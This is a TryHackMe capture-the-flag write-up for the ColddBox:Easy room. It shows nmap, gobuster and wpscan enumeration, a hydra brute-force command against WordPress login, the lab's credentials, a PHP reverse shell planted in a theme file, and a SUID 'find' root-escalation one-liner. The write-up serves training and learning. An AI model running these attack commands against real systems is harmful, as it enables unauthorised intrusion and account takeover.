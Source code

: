 # [ColddBox:Easy](https://tryhackme.com/room/colddboxeasy)

> Darshan Patel

## Overview

| Tables | Description |
| ------ | ----------- |
| Challenge Name | Colddbox:Easy |
| Difficulty | Easy |
| Tags | security, box, priv-esc, wordpress |


---

## Index
- [Enumeration](#enumeration)
- [Find vunerabilies](#finding-vunerabilies)
- [Reverse shell](#gaining-a-reverse-shell)
- [PrivEsc](#priviledge-escalation)

---

```bash
$ export IP=10.10.94.215
```

---
### Enumeration

```bash
$ nmap -sC -sV -v $IP -oN nmap/initial.nmap
$ gobuster dir -t 64 -u $IP -w ~/wordlists/website_dir/directory-list-2.3-medium.txt -x .txt,.php,.html -o gobuster/dir_med_ini.txt

```

Ports:
```
80 http
4512 ssh
```

Directories:
```
/wp-content
/wp-admin.php
/wp-login.php
/hidden
/xmlrpc.php
```

---
### Finding vunerabilies

Since this is a wordpress website, we can use `wpscan` to enumerate it easily and quickly

```bash
$ wpscan --url $IP -e vp,vt,u
```

This yields multiple usernames we can leverage. They also correlate with names we found in `/hidden`

Contructing the hydra command to brute force the users
```bash
$ hydra -t 64 -V -L users.txt -P ~/wordlists/passwords/rockyou.txt $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:incorrect"
```

Also, worthy to note wpscan's bruteforcer which seems as faster (if not faster) than hydra at full sprint
```bash
$ wpscan --url $IP -U users.txt -P ~/wordlists/passwords/rockyou.txt
```
And you don't even need to tinker with the request format, making it much nicer to work with than hydra.

Once that is done (takes a while unfortunately) we gain the credentials:
`c0ldd:9876543210`

---
### Gaining a reverse shell

Once we're in, I notice our ability to edit theme files. Meaning that we can create a php reverse shell by modifying one of the php scripts with our reverse shell code.
I chose `404.php` in the twentyfifteen theme and navigated to `http://$IP/wp-content/themes/twentyfifteen/404.php` and voila! Our reverse shell is active.


---
### Priviledge Escalation

Now that we are logged on as `www-data` I navigate to `/tmp` and `wget` linpeas to begin enumerating the system.
I quickly notice a strange plaintext linpeas found in the wordpress config in regards to a database. It gave a username `c0ldd` and their password `cybersecurity` but before I decide to `su` into `c0ldd` I notice that `find` has its SUID bit set, enabling us to quickly escalate to root!
Before I exploit find, I decide to check if `c0ldd`'s password really was cybersecurity. And it is!
Moving onto `find` though,

```bash
find . -exec /bin/bash -ip \; -quit
```

And we are now root!
Note, that you can decode your user and root flags using b64 and google translating them from Spanish!
(The room requires the encoded flags though)

And we are _**complete!**_

Great practice for beginners like myself


